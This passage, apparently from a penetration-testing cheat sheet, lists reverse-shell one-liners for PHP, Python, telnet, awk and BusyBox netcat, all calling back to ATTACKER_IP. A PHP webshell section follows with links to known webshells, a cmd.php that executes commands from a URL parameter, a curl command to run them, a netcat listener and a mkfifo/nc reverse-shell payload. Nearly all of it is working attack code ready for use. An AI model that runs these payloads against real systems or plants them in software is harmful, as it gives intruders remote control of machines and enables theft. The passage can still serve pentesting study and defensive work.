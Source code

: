 | PHP (`shell_exec`) | `php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'`                                                                                                                                                  | Similar to the above, but uses the `shell_exec()` function.                                            |
| PHP (`system`)     | `php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'`                                                                                                                                                      | Uses the `system()` function to execute the shell and display the output.                              |
| PHP (`passthru`)   | `php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'`                                                                                                                                                    | Uses the `passthru()` function, which is useful for binary data.                                       |
| PHP (`popen`)      | `php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");'`                                                                                                                                                  | Uses `popen()` to open a process pipe and execute the shell.                                           |
| **Python**         |                                                                                                                                                                                                                               |                                                                                                        |
| Python             | `export RHOST="ATTACKER_IP"; export RPORT=443; python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'`  | Sets attacker info as environment variables, then connects and spawns a fully interactive PTY shell.   |
| Python             | `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'` | A very common and reliable one-liner that connects and spawns a PTY shell.                             |
| Python             | `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'`                                                                                 | A more compact version of the standard Python PTY reverse shell.                                       |
| **Other Tools**    |                                                                                                                                                                                                                               |                                                                                                        |
| Telnet             | `TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF \| sh 1>$TF`                                                                                                                                                     | Creates a named pipe (FIFO) and uses `telnet` to shuttle shell I/O to the attacker.                    |
| AWK                | `awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; ...}' /dev/null`                                                                                                                                                              | Uses AWK's built-in networking capabilities to create a reverse shell client.                          |
| BusyBox            | `busybox nc ATTACKER_IP 443 -e sh`                                                                                                                                                                                            | Uses the `nc` applet within BusyBox with the `-e` flag to execute a shell upon connection.             |

### 🐘 PHP Webshells

- Beachhead: https://github.com/flozz/p0wny-shell
- Post-Exploit: https://github.com/wso-shell-php/.github

`/usr/share/webshells`
- https://github.com/payloadbox/command-injection-payload-list

#### 📤 Upload command executor
```php
// cmd.php
<?php system($_GET['cmd']); ?>
```
#### ▶️ Run commands
```bash
curl http://<TARGET>/cmd.php?cmd=ls > cmd_output_$(date +%Y-%m-%d_%H%M).txt
```

---

#### 👂 Start Listener
```bash
nc -lvnp 54321
```

#### 📤 Upload reverse shell to execute netcat
**MAKE SURE NETCAT IS ON TARGET**
```php
<?php
  $cmd = "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <LISTEN_IP> <PORT> > /tmp/f";
  system($cmd);
?>
```
